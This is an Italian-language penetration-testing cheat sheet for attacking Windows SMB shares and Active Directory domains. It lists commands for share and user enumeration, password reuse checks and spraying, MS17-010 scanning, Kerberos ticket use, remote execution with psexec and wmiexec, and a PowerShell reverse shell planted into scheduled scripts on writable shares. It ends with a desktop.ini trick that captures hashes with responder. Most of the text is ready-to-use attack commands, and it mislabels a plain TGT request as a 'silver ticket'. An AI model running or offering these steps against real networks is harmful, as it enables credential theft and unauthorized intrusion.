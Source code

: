 ### **ENUMERAZIONE SHARE E PERMESSI**
```bash
cme smb <ip> -u guest -p "" --shares
```
![file://C:/Users/STRAOL~1/AppData/Local/Temp/.HAXM41/1.png](file://C:/Users/STRAOL~1/AppData/Local/Temp/.HAXM41/1.png)

### **ENUMERAZIONE CONTENUTO SHARES**
```bash
cme smb <IP> -u <USER> -p "<PASS>" -M spider_plus
```
### **ENUMERAZIONE ALTRI USERS**
```bash
crackmapexec smb <IP>-u <USER> -p '<PASS>' --users
```
inserisci gli user in una lista e poi prova a vedere se c'è un riutilizzo delle password
```bash
crackmapexec smb <IP> -u users.txt -p '<PASS>' --continue-on-success
```
### **CHECK VULN SU SMB(MS17-010 ECC...)**
```bash
nmap -p445 --script vuln
```
### **CONNESSIONE A SMB DC**
Si usa il silver ticket :)
```bash
impacket-getTGT '<NOME DOMINIO>/<USER>:<PASS>' 
export KRB5CCNAME=<*>.ccache 
impacket-smbclient <USER>@<NOME DC> -k -no-pass
```
Se da errore KRB_AP_ERR_SKEW
```bash
timedatectl set-ntp false
ntpdate -s <NOME DOMINIO>
```
### **PASSWORD SPRAY**
==OCCHIO ALLE POLICY DELLE PASSWORD PERCHE POTRESTI LOCKARE LE PASSWORD==
```bash
crackmapexec smb <MACHINE-IP> -u <USER> -p /usr/share/wordlists/rockyou.txt
```
### **PWN**
```bash
cme smb <IP> <USER> -p "<PASS>"
```
![file://C:/Users/STRAOL~1/AppData/Local/Temp/.HAXM41/2.png](file://C:/Users/STRAOL~1/AppData/Local/Temp/.HAXM41/2.png)
poi
```bash
psexec.py <NOME DOMINIO>/<USER>@<IP>
```
o
```bash
wmiexec.py <NOME DOMINIO>/<USER>@<IP>
```
![file://C:/Users/STRAOL~1/AppData/Local/Temp/.HAXM41/3.png](file://C:/Users/STRAOL~1/AppData/Local/Temp/.HAXM41/3.png)

### **REVERSE SHELL**
In caso te abbia permessi di scrittura sullo share e ci sia uno script che venga runnato ogni tot, sostituisce lo script o aggiungici questa riga
[https://github.com/samratashok/nishang](https://github.com/samratashok/nishang)
```bash
Invoke-PowerShellTcp -Reverse -IPAddress <IP> -Port <PORT>
```
### **SCRITTURA SULLO SHARE**
*Desktop.ini*
Carica un file desktop.ini
```powershell
[.ShellClassInfo]
IconResource=\\<ip>\test
```
logga come utente con i permessi
```bash
smbclient //<IP>/<SHARE> -U <USER>
```
e ascolta con responder
```bash
responder -I tun0 -wPv
```
